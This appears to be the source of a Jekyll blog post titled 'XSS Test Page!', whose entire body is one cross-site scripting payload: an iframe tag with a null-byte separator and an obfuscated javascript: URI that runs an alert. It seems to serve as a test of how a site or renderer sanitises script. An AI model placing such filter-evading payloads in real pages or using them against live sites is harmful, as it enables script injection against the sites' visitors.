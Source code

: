 ```yaml
---
layout: post
title:  "XSS Test Page!"
date:   2019-12-01 09:19:24 +0530
categories: jekyll update
---
```



<iframe/%00/ src=javaSCRIPT&colon;alert(/test/)

